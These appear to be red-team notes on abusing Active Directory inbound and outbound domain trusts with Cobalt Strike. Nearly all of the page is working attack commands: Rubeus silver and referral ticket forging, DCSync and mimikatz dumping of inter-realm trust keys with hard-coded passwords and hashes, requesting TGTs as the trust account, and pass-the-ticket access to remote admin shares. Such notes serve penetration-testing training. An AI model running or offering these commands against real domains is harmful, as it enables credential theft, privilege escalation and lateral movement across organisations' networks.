
| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

| Value | trustAttributes                      |
| ----- | ------------------------------------ |
| 1     | `TRUST_ATTRIBUTE_NON_TRANSITIVE`     |
| 4     | `TRUST_ATTRIBUTE_QUARANTINED_DOMAIN` |
| 8     | `TRUST_ATTRIBUTE_FOREST_TRANSITIVE`  |
| 32    | `TRUST_ATTRIBUTE_WITHIN_FOREST`      |
| 64    | `TRUST_ATTRIBUTE_TREAT_AS_EXTERNAL`  |
`
```powershell
execute-assembly ~/opt/Rubeus.exe silver /user:Administrator /domain:zsm.local /sid:S-1-5-21-2734290894-461713716-141835440 /service:krbtgt/zsm.local /rc4:f112ca3fdde9210caf7335939d95c191 /ldap /nowrap
```
##### Inbound Trust Abuse

Enumerate the one-way trust
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatname
```

Enumerate the Foreign Security Principals Container.
```powershell
ldapsearch (objectClass=foreignSecurityPrincipal) --attributes cn,memberOf --hostname contoso.enclave --dn DC=contoso,DC=enclave
```

Enumerate interesting SID
```powershell
ldapsearch (objectSid=[SID])

ldapsearch (objectSid=S-1-5-21-3926355307-1661546229-813047887-6102)
```

Perform DCSync to obtain inter-realm key.
```powershell
make_token CONTOSO\dyork Passw0rd!
dcsync contoso.com CONTOSO\ENCLAVE$
rev2self

700f2ef9f5c327c5acb0502277ba9b3847b9e0454dbf27d3658f7249c32e924b
f112ca3fdde9210caf7335939d95c191
```

Forge a referral ticket offline or online using the `/ldap` flag
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /id:1105 /groups:513,1106,6102 /service:krbtgt/partner.com /rc4:77057e264522cbf4db45d6733b9167dc /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /service:krbtgt/partner.com /rc4:f112ca3fdde9210caf7335939d95c191 /ldap /nowrap
```

Use forged inter-realm ticket to request service tickets for the trusting domain
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/par-jmp-1.partner.com /dc:par-dc-1.partner.com /nowrap /ticket: 
```

Inject ticket into current session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
ls \\par-jmp-1.partner.com\c$
```

##### Outbound Trust Abuse

 Enumerate the one-way trust.
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatName
```

> **From the Medium-integrity Beacon**:

Get the GUID of the TDO
```powershell
ldapsearch (objectClass=trustedDomain) --attributes name,objectGUID

288d9ee6-2b3c-42aa-bef8-959ab4e484ed
```

 Obtain the shared inter-realm key from the TDO.
```powershell
mimikatz lsadump::dcsync /domain:partner.com /guid:{288d9ee6-2b3c-42aa-bef8-959ab4e484ed}

cc19dd9022fb33da79820c340e7c96765f237aa1a5a9dfe889a8f27af12c7a34
6150491cceb080dffeaaec5e60d8f58d
```

 Request a TGT for the trust account using the shared secret.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:PARTNER$ /domain:CONTOSO.COM /dc:lon-dc-1.contoso.com /nowrap /rc4:6150491cceb080dffeaaec5e60d8f58d
```

> **From the High-integrity Beacon**:

Inject the TGT into a sacrifial logon session and verify
```powershell
make_token CONTOSO\PARTNER$ FakePass

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
```

Perform [enumeration](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F8.%20Discovery%2F_%20Main) on the trusted domain, find roastable users, ADCS instances, etc.
```powershell
ldapsearch (objectClass=domain) --dn DC=contoso,DC=com --attributes name,objectSid --hostname contoso.com
```